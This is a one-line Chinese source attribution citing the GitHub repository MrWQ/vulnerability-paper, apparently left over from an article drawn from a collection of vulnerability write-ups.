> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
